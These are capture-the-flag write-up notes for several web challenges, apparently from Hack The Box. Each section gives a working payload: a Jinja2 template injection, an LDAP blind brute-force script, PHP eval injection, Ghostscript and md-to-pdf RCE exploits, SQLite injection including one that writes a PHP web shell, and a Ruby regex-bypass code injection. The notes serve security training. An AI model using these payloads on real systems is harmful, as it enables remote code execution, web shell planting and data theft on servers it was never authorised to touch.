 # WEB

## Templeted `Flask/Jinja2 Template Injection`
Flask/Jinja2 Template Injection
Payload:
```
http://<ip_address>/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```

## Phonebook `LDAP Injection`
Bypass login using \*:\* credentials.

Get reese's password -> flag:
Python script: 
```python3
import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

proxies = {
    'http': 'http://127.0.0.1:8080'
}

flag = "HTB{"
for i in range(50):
    print("[i] Looking for number " + str(i))
    # print(alphabet)
    for char in alphabet:
        pwd = flag + char + '*'
        r = requests.post("http://<ip_address>/login", data={"username":"reese", "password":pwd}, proxies=proxies)
        if ("'Content-Length': '2586'" in str(r.headers)):
            flag += char
            print("[+] Flag: " + flag)
            break
```



## LoveTok `Code Injection [PHP eval()]`
```url
# Get flag file name
http://<ip_address>/?format=${system($_GET[1])}&1=ls

# Get flag
http://<ip_address>/?format=${system($_GET[1])}&1=cat+flageXXXX
```


## Toxic `Insecure Deserialization` & `Log Poisoning Attack`
### `TODO`



## petpetrcb `CVE-2018-16509`
Ghostscript === 9.23 RCE
Payload:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```


Payload for this challenge:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag >> /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

## Under Construction `JWT Algorithm Confusion` & `SQL Injection`
JWT Algorithm Confusion -> https://portswigger.net/web-security/jwt/algorithm-confusion

Next SQL Injection (SQLite3)
```sql
-- Get Tables
user_in_database' union select name,NULL from sqlite_master where type='table' and name not like 'sqlite_%';-- 

-- Get Columns
user_in_database' union select sql,NULL from sqlite_master where tbl_name = 'users' and type = 'table';--

-- Get Flag
user_in_database' and 1=2 UNION SELECT *,NULL from flag_storage;--
```


## Blinker Fluids `CVE-2021-23639`
md-to-pdf < 5.0.0 RCE
Payload:
```
const { mdToPdf } = require('md-to-pdf'); var payload = '---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE';
```
Payload for this challenge:
```js
// In request:
"---js\n((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))\n---RCE;"

// PDF editor on site:
---js
  ((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))
---RCE;

```

## Intergalactic POST `SQL Injection with RCE [SQLite3]`
If given arguments arent't properly validated:
```php
$this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
```
We can add `X-Forwarded-For` header and it's value will be passed to `$ip_address`
```sql
X-Forwarded-For: a','a');ATTACH DATABASE '/www/lol.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```
Next arguments can be given through URL:
```url
http://104.248.173.13:32130/lol10.php?cmd=cat%20../flag_d055c3346bc2c02.txt
```

## Neofy `Regex Bypass with new line` && `Code Injection`
Regex that should protect against Code Injection:
```ruby
params[:neon] =~ /^[0-9a-z ]+$/i
```
In Ruby (but not only) the ^ and $ match at the start and end of each line. So if any (!) one line is matching, we have a successful match. What we would rather want in this case is matching the beginning and end of the string, which is possible with \A and \z.
Thats why this payload works:
```url
# In request POST /
neon=abc%0a<%25%3d+File.open('/app/flag.txt').read+%25>
%0a -> encoded newline
```
